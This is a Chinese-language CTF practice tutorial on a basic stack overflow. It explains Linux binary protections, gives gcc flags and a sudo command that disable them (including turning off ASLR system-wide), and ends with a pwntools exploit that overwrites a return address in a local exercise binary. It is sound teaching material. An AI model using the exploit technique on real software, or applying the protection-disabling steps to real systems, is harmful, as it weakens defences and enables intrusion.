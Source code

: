 # PWN Exercise - Stack Overflow

## 准备

- gdb 插件 pwndbg
- pwntools 

## 保护机制
### CANNARY
栈溢出保护是一种缓冲区溢出攻击缓解手段，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让shellcode能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈里插入cookie信息，当函数真正返回的时候会验证cookie信息是否合法，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会将cookie信息给覆盖掉，导致栈保护检查失败而阻止shellcode的执行。在Linux中我们将cookie信息称为canary。
### NX
NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
### PIE&ASLR
内存地址随机化机制（address space layout randomization)，有以下三种情况

 - 表示关闭进程地址空间随机化。
 - 表示将mmap的基址，stack和vdso页面随机化。
 - 表示在1的基础上增加栈（heap）的随机化。

PIE和ASLR不是一样的作用，ASLR只能对堆、栈和mmap随机化，而不能对如代码段，数据段随机化，使用PIE+ASLR则可以对代码段和数据段随机化。

### RELRO
在Linux系统安全领域数据可以写的存储区就会是攻击的目标，尤其是存储函数指针的区域。 所以在安全防护的角度来说尽量减少可写的存储区域对安全会有极大的好处.


## 编译

- NX：-z execstack / -z noexecstack (关闭 / 开启)
- Canary：-fno-stack-protector /-fstack-protector /  
- -fstack-protector-all (关闭 / 开启 / 全开启)
- PIE：-no-pie / -pie (关闭 / 开启)
- RELRO：-z norelro 

gcc -m32 -no-pie -z norelro -fno-stack-protector pwn0.c -o pwn0 
关闭地址随机化
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"

## PWN
>题目:输出You Hava already controlled it.为利用成功



`pwn checksec`
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


### 计算偏移
```
               +-----------------+
               |     retaddr     |
               +-----------------+
               |     saved ebp   |
        ebp--->+-----------------+
               |                 |
               |                 |
               |                 |
               |                 |
               |                 |
               |                 |
  s,ebp-0x14-->+-----------------+
```
### EXP

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
elf = ELF('pwn0')
io = process(elf.path)

#开启新窗口用于gdb调试
#gdb.attach(io,'b * 0x0804921e') 
success_addr = 0x080491b6
payload = b'a'*0x14 + b'bbbb' + p32(success_addr)
io.sendline(payload)
io.interactive()
```

## Ref
- [linux程序的常用保护机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)
- https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/stackoverflow-basic-zh/